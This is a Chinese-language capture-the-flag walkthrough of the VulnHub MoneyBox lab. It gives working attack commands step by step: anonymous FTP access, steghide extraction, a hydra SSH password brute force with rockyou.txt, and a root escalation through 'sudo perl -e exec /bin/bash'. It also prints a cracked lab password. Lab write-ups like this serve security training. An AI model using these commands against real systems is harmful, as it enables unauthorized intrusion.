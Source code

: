 ## 复盘*

## 靶机地址

[MoneyBox: 1 ~ VulnHub](https://www.vulnhub.com/entry/moneybox-1,653/)

![image-20250309084029932](./assets/image-20250309084029932.png)





## 信息收集





### 主机探活

```
arp-scan -l --interface=eth1
```

![image-20250309084106246](./assets/image-20250309084106246.png)

确定靶机ip：192.168.56.141





### 扫描目标主机的开放端口

```
nmap -sS -sV -p- -Pn 192.168.56.141
```

![image-20250309084150430](./assets/image-20250309084150430.png)

开放了：

- 21 ftp服务
- 22 ssh服务
- 80 http服务







### 利用CTFEnum扫描

```
CTFEnum 192.168.56.141
```

![image-20250309084248660](./assets/image-20250309084248660.png)

![image-20250309084252028](./assets/image-20250309084252028.png)

扫描结果可知：FTP服务允许匿名登录，且存在trydofind.jpg文件





### 匿名登录ftp服务，并将文件保存至本地

```
lftp 192.168.56.141 -u anonymous
```

![image-20250309084348951](./assets/image-20250309084348951.png)







### 利用steghide扫描该jpg文件

![image-20250309084428171](./assets/image-20250309084428171.png)

存在隐写，尝试免密提取失败





### 访问192.168.56.141

![image-20250309084449269](./assets/image-20250309084449269.png)



无关键信息





### 扫描网站目录

```
dirsearch -u 192.168.56.141
```

![image-20250309084518686](./assets/image-20250309084518686.png)

![image-20250309084522556](./assets/image-20250309084522556.png)

存在：blogs目录





### 访问blogs

![image-20250309084549236](./assets/image-20250309084549236.png)

查看源码

![image-20250309084600537](./assets/image-20250309084600537.png)

提示查看目录：S3cr3t-T3xt

![image-20250309084613785](./assets/image-20250309084613785.png)

查看源码

![image-20250309084621920](./assets/image-20250309084621920.png)





### 利用steghide提取信息

```
steghide --extract -sf trytofind.jpg
```

![image-20250309084642621](./assets/image-20250309084642621.png)

成功提取data.txt文件





### 查看data.txt文件

![image-20250309084713473](./assets/image-20250309084713473.png)

提示用户为renu，弱口令密码





### 利用hydra爆破ssh服务

```
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.141
```

![image-20250309084811811](./assets/image-20250309084811811.png)

得到用户密码：

```
renu：987654321
```



## 提权



登录ssh服务



### 得到第一个flag

```
ls -al
cat user1.txt
```

![image-20250309084914828](./assets/image-20250309084914828.png)



### 尝试sudo -l

```
sudo -l
```

![image-20250309084939950](./assets/image-20250309084939950.png)

无结果





### 进入lily家目录

```
cd /home/lily
ls -al
```

![image-20250309085016947](./assets/image-20250309085016947.png)

发现user2.txt文件可读





### 拿到第二个flag

```
cat user2.txt
```

![image-20250309085052260](./assets/image-20250309085052260.png)



### 查看.ssh文件夹

```
ls -al
cat authorized_key
```

![image-20250309085110540](./assets/image-20250309085110540.png)

发现存在renu的公钥，即renu可以实现免密登录lily





### 尝试ssh免密登录

```
ssh lily@localhost 
```

![image-20250309085209146](./assets/image-20250309085209146.png)



### 执行sudo -l

```
sudo -l
```

![image-20250309085227680](./assets/image-20250309085227680.png)



### perl提权

```
sudo perl -e 'exec "/bin/bash"'
```

![image-20250309085239568](./assets/image-20250309085239568.png)



### 得到最后一个flag

```
cd /root
ls -al
cat .root.txt
```

![image-20250309085315869](./assets/image-20250309085315869.png)